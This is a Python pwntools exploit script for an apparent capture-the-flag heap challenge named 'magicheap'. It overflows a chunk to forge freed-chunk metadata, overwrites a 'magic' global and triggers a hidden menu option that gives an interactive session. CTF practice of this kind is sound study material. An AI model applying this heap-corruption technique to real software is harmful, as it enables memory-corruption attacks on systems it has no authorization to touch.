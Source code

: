 ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
from time import sleep
import sys
context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

io = process("./magicheap")
elf = ELF("./magicheap")
#  libc = ELF("")

def DEBUG():
    raw_input("DEBUG: ")
    gdb.attach(io)


def create(size, content, attack = False):
    io.sendlineafter("choice :", "1")
    io.sendlineafter(" : ", str(size))
    io.sendlineafter(":", content)


def edit(idx, size, content):
    io.sendlineafter("choice :", "2")
    io.sendlineafter(" :", str(idx))
    io.sendlineafter(" : ", str(size))
    io.sendlineafter(" : ", content)

def delete(idx):
    io.sendlineafter("choice :", "3")
    io.sendlineafter(" :", str(idx))


if __name__ == "__main__":
    create(0x10, 'aaaa')
    create(0x80, 'bbbb')
    create(0x10, 'cccc')

    delete(1)

    payload = cyclic(0x10) + p64(0) + p64(0x91) + p64(0) + p64(elf.symbols["magic"] - 0x10)
    edit(0, 0x10 + 0x20, payload)

    create(0x80, 'dddd')

    io.sendlineafter("choice :", "4869")
    io.interactive()
    io.close()

```

